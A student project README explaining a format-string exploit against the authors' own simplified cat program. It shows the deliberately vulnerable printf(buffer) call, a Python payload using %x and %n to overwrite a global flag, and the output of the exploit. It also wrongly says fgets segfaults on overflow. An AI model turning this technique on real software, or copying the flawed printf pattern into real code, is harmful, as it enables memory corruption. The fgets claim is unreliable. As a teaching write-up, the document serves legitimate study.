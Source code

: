 ## Exploits in C 
Kai Levy and Patrick Huston | Software Systems Spring 2018
### Project Goal

In this project, we hope to explore the common methods of software exploitation in C. In specific, we want to understand the basis of how it works, what makes software vulnerable, and the steps that can be taken to ensure safety from a developer standpoint. 

### Learning Goals

Over the course of the project, we hope to achieve the following learning goals. 

  - Learn about real security vulnerabilities that can occur in common programs, how to exploit them, and how to avoid them. 
  - Research and learn about vulnerabilities to real software - understanding what the issue was, how it was exploited, and how it was fixed.
  - Develop simple and effective C programs

### Resources
While smashing the stack, having fun, and making profits, we encountered several useful resources that helped us along the way. 

[This paper](http://insecure.org/stf/smashstack.html) provided an in depth look at stack smashing (for fun and profit) from the basics to a full exploit. We found it to be a useful introduction, and supplemented the information there with more incremental tutorials, such as the videos that [this youtuber](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w/videos) published.

[The protostar exploit exercises](https://exploit-exercises.com/protostar/) laid the ground for our work in buffer overflows, formatting, and heap exploits. Protostar includes series of challenges that build on each other to demonstrate common C exploits. All of our work for these exercises was completed on a 32-bit linux VM provided by the site. Additionally, we found that the VM provided by protostar was useful for developing our own exploits, because many features of modern computers (such as [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), 64-bit architecture, and memory protection) make it difficult to achieve the same results on our own machines.


### Results

#### Protostar

The first portion of our project involved working through the [protostar](https://exploit-exercises.com/protostar/) exploit exercises. In this process, we worked through the following exercises. 

- All of the [stack exercises](https://exploit-exercises.com/protostar/stack0/)
- All of the [format exercises](https://exploit-exercises.com/protostar/format0/)
- Viewed tutorials on the [heap exercises](https://exploit-exercises.com/protostar/heap0/)

We found these exercises to be fun and challenging. We took what we learned from these, and applied it to developing our own exploits. 

#### Developing Exploits

To practice what we learned from protostar, we developed a simplified implementation of the linux utility [`cat`](http://www.linfo.org/cat.html). Our [implementation](https://github.com/phuston/SoftSysExploitsInC/blob/master/copycat.c) includes functionality for the `-n` line number flag and options to read from `stdin` or any number of files specified. 

##### Formatting Exploit

Aside from parsing command line arguments, the core functionality of cat is found in our function `copy_file`. Unfortunately there is a glaring security hole found in this implementation. The `printf` function is designed to be called with a string literal as the first argument, and with any additional parameters afterwards. Passing an argument that the user has control of can expose memory and even allow the user to modify memory by passing in the `%n` format option.

```
/* Output file to stdout line by line 
 */
void copy_file(FILE *file) {
    int linecount = 0;
    char buffer[BUFSIZ];

    while (fgets(buffer, BUFSIZ, file) != NULL) {
        if(gargs.nFlag){
            printf("%6d  ", ++linecount);
        }
        printf(buffer); <-- 'glaring' security hole
    }
}
```

We exploited this flaw in order to modify our global argument flags during execution. While this is not an especially 'malicious' exploit, we feel it demonstrates a significant modification of the program's functionality. To start, we located the memory address of our `gargs` variable, which stored values of our flags, using gdb. 

```
struct gargs_t {
    int nFlag;       /* -n option */
} gargs;
```


```
ccat:     file format elf32-i386         

SYMBOL TABLE:                            
08048114 l    d  .interp        00000000              .interp                      
08048128 l    d  .note.ABI-tag  00000000              .note.ABI-tag                
08048148 l    d  .note.gnu.build-id     00000000              .note.gnu.build-id   
0804816c l    d  .hash  00000000              .hash                                
080481b8 l    d  .gnu.hash      00000000              .gnu.hash                    
080481e4 l    d  .dynsym        00000000              .dynsym                      
080482c4 l    d  .dynstr        00000000              .dynstr           
...
00000000       F *UND*  00000000              puts@@GLIBC_2.0
08049960 g     O .bss   00000004              gargs  <--- LOOK HERE ALLEN!
08049950 g       *ABS*  00000000              _edata
00000000       F *UND*  00000000              strcmp@@GLIBC_2.0
080487aa g     F .text  00000000              .hidden __i686.get_pc_thunk.bx
080485a4 g     F .text  00000120              main
0804840c g     F .init  00000000              _init
```

Now we know that the address of `gargs` is `08049960`. 

We used the simple python below to generate text which would be one of the inputs to our `copycat` program. When the `printf` receives formatting commands, but no further arguments, it simply reads the next values off the stack. Since our input appears on the stack, we may simply write in the desired address, and add the `%n` option -- which writes the number of printed characters to that address -- to overwrite our flag. This technique required some tricky aligning of our payload with the stack, and would not work on a machine with [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization). This is where using the VM provided by the protostar series came in handy. 


```
def pad(s):
 return (s+"A"*500)[:500]

# 08049960 is our address of gargs
print pad("BBBB" + "\x60\x99\x04\x08" + "CCCCCC" + "%x "*7 + "%n ")
```

In this code snippet `\x60\x99\x04\x08` represents the address of `gargs` in 32-bit little-endian, the architecture of the protostar VM. 

The result of our exploit is below. We ran our program without setting any flags, but once our program processed our first argument, it started adding line numbers as we had overwritten the flags during execution! WOW!


```
$ ./ccat test test2
BBBBCCCCCC2000 804a008 0 0 0 0 42424242  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
     1  this
     2  is
     3  a
     4  multilined
     5  entry
     6  thing
     7  
```

### Reflection

Overall, we feel pretty good about the progress we made during this project. We learned a bunch about common C exploits through the tutorials and the exercises. 

Unfortunately, we found it more difficult than anticipated to design our own exploitable programs - especially writing them in a way that wasn't painfully obvious how poorly designed and exploitable they were. While we had hoped to include a version of `copycat` that was vulnerable to a buffer overflow and subsequent arbitrary code execution, we realized during the process that C actually does a relatively good job at stopping developers from writing stupid code -- the most notable functions that allows users to overflow buffers are `gets` and `strcpy`. The `strcpy` function did not fit our program's use at all, and `gets` could only be used for input from `stdin`. Luckily (or unluckily for our project), the functionality from `gets` has been replaced with `fgets`, which does not expose such vulnerabilities. Unlike `gets`, which doesn't complain about anything, `fgets` drops a segmentation fault as soon as it writes beyond a buffer limit - which is exactly what we intended to do. 

Rather than significantly altering the design of our `copycat` implementation to be exploitable, we decided to call it on the project, and spend our energy elsewhere. 

We originally intended to learn more about real-world vulnerabilities in software, and while we learned about some real bugs (including how they related to the exploits we've seen), we didn't learn about the nitty gritty details of their implementations or patches. 

In conclusion, we:
1. Learned some C exploits
2. Wrote a simple C program
3. Exploited that C program
